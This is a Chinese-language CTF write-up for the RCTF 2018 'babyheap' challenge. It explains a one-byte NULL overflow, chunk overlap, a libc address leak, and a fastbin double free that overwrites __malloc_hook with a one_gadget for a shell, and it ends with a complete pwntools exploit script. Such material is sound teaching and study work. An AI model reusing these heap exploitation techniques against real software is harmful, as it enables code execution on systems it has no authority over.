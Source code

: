 # RCTF babyheap
## Author: fanda

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下**securisecctf队**写的[原wp](https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/)的地址，我在这里配合这篇wp再解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>拿到二进制文件后常规检查一下，可以看到程序本身所有的保护都开了，而libc有一个没开，这意味这我们有改写libc的GOT表的权限，在这里我们可以修改__malloc_hook。</font></br>

![babyheap1](../../screenshot/babyheap1.png)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用IDA打开附带的libc.so.6，搜索字符串，跟踪/bin/sh，可以看到从**0x4526a**地址处开始有调用execve("/bin/sh")，因此这里就是我们用来getshell的gadget了；用'objdump -R libc.so.6 | grep hook'命令得到__malloc_hook的地址:**0x3c3ef0**</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们开始分析这个程序，很典型的堆题套路，漏洞点就在alloc的时候，输入堆块内容的时候存在溢出最后一字节的可能性:</font></br>

```C
__int64 __fastcall set_chunk(__int64 chunk, unsigned int size)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < size; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      put_error((__int64)"read() error");
    *(_BYTE *)(chunk + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + chunk) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>64位下利用off-by-one漏洞需要分配一个MINSIZE-8的大小，（不懂原理的可以先看[这里](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/ "sploitfun")）然后就可以在8字节覆盖完了堆的pre_size后，剩下的溢出的最后一个NULL字节覆盖size的最低地址，抹掉了prev_inuse的标志位，就可以让allcator误以为前面的堆块已经被释放了，触发合并操作，然后配合double-free就可以为所欲为了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了利用思路后，我们首先分配四个堆块，并且尝试泄露libc地址。</font></br>

```python
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有一点需要注意的是程序内部记录堆块和内存中真正bins里的记录是不一样的，比如分配完之后链表是这样的:</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e400	0x000055f71691e500
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了0号和1号堆块之后是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x0000000000000000	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们重新申请一块0x78(MINSIZE-8)的内存之后实际上分配过来的是原来的1号堆块，但是程序记录时重新将这个堆块标记为0：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如上，这就像是链表中原先1号堆块被放到了0号，不过这么理解不太好。实际上是分别释放完了堆块0和1以后（实际bins是向前插入），内存中bins是：{1，0，...}，然后我们再次申请跟1相同大小的内存块的时候系统会直接返还给之前的堆块给我们也就是堆块1，然而这个堆块1会被程序记录为0。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好了，废话有点多，接下来我们分配的是MINSZIE-8大小的堆块，所以实际上存在8字节可以覆盖下一个堆块（堆块2）的pre_size，然后NULL byte可以覆盖size的pre_inuse标志，当我们写入0x70*'a'+p64(0x180)的时候，下一个堆块的pre_size被修改为0x180,然后pre_inuse被清除，这就相当于欺骗了malloc以为之前有一个0x180大小的已经被释放的堆块，然后我们delete堆块2，malloc就会把这两个堆块合并起来，就会存在一个0x280的大堆块。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来再分配一个0xf0大小的堆块，会被记录为1号，但是在内存里会被放在1号堆块之前的位置，这时候链表是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x000055f71691e400
0x511654eb7010:	0x0000000000000000	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000

pwndbg> x/20xg 0x000055f71691e400
0x55f71691e400:	0x4141414141414141	0x4141414141414141
0x55f71691e410:	0x4141414141414141	0x4141414141414141
0x55f71691e420:	0x4141414141414141	0x4141414141414141
0x55f71691e430:	0x4141414141414141	0x4141414141414141
0x55f71691e440:	0x4141414141414141	0x4141414141414141
0x55f71691e450:	0x4141414141414141	0x4141414141414141
0x55f71691e460:	0x4141414141414141	0x4141414141414141
0x55f71691e470:	0x4141414141414141	0x4141414141414141
0x55f71691e480:	0x4141414141414141	0x4141414141414141
0x55f71691e490:	0x4141414141414141	0x4141414141414141
pwndbg> 
0x55f71691e4a0:	0x4141414141414141	0x4141414141414141
0x55f71691e4b0:	0x4141414141414141	0x4141414141414141
0x55f71691e4c0:	0x4141414141414141	0x4141414141414141
0x55f71691e4d0:	0x4141414141414141	0x4141414141414141
0x55f71691e4e0:	0x4141414141414141	0x4141414141414141
0x55f71691e4f0:	0x0000000000000000	0x0000000000000181
0x55f71691e500:	0x00007f1e8aa59b78	0x00007f1e8aa59b78
0x55f71691e510:	0x4242424242424242	0x4242424242424242
0x55f71691e520:	0x4242424242424242	0x4242424242424242
0x55f71691e530:	0x4242424242424242	0x4242424242424242

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来输入0号堆块的内容，就会泄露出main_arena的地址了，再进行一些计算就能算出libc_base的实际地址，绕过ASLR：</font></br>

```C
 0x55f71690f000     0x55f71693f000 rw-p    30000 0      [heap]
 0x7f1e8a695000     0x7f1e8a855000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来进行如下操作：</font></br>

```python
delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了堆块1号（内存实际位置在0号堆块之前），下面三次alloc都会重新返回刚释放的堆块的地址。在第四次alloc的时候，会把0号堆块切割一下返回分配出来，并被设置为5号堆块，这个时候如果我们free堆块5号和堆块0号（为什么可以free堆块0？因为程序并不知情已经被合并到一个大空闲块了，但是链表记录还在:），相当于对同一个堆块free了两次，出现了double free漏洞，这里我们再free一下4号绕过简单的double free检测，然后就可以利用了：</font></br>

```python
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后就得到shell了，完整脚本如下：</font></br>

Exploit脚本：
=========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  r = process('./babyheap')
  context(log_level='debug')
  gdb.attach(r)
else:
  r = remote('babyheap.2018.teamroir.cn',3154)

def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))

libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))

delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) 
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()

```
